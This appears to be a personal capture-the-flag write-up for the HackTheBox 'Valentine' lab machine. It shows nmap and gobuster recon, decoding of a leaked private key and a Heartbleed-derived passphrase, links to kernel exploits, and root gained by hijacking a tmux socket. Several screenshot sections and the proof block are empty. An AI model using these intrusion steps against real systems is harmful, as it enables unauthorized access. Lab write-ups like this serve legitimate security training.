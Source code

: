 # Summary



## about target

tip:  10.129.34.100

hostname: Valentine

Difficulty: Easy



## about attack

+ found the key and decoded, no password.  Not known heartbleed vuln.
+ privesc, found dirty cow(failed) and tmux;





**attack note**



```bash
Valentine / 10.129.34.100



PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2022-10-12T12:18:16+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -u http://$tip/ -o gobuster-80.txt

/dev   found files.

hex decode, private key.
hex -D hype_key > hype.key

ssl heartbleed exploit. 32745.py

.$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==


echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype


## local enum

sudo version 1.8.3p1
https://www.exploit-db.com/exploits/25134

  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131


/usr/bin/tmux -S /.devs/dev_ses
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking


```





# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2022-10-12T12:18:16+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
```



## http enum

default page.

![image-20221012231301508](./images/image-20221012231301508.png)



![image-20221012231553404](./images/image-20221012231553404.png)

![image-20221012231624888](./images/image-20221012231624888.png)





# Exploitation





![image-20221012230724543](./images/image-20221012230724543.png)



![image-20221012231019955](./images/image-20221012231019955.png)



![image-20221012231232025](./images/image-20221012231232025.png)



# Privesc



## Post Enumeration





## System



```bash
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 12 05:10 /.devs/dev_sess
hype@Valentine:~$ groups
hype cdrom dip plugdev sambashare
hype@Valentine:~$ tmux -S /.devs/dev_sess
```

![image-20221012235146971](./images/image-20221012235146971.png)



`terminal open failed: missing or unsuitable terminal: tmux-256color`

```bash
export TERM=xterm
```



## system-dirtycow

exploit https://www.exploit-db.com/exploits/40616

failed.

![image-20221013003445631](./images/image-20221013003445631.png)



## proof

```bash


```



![image-20221012235108624](./images/image-20221012235108624.png)
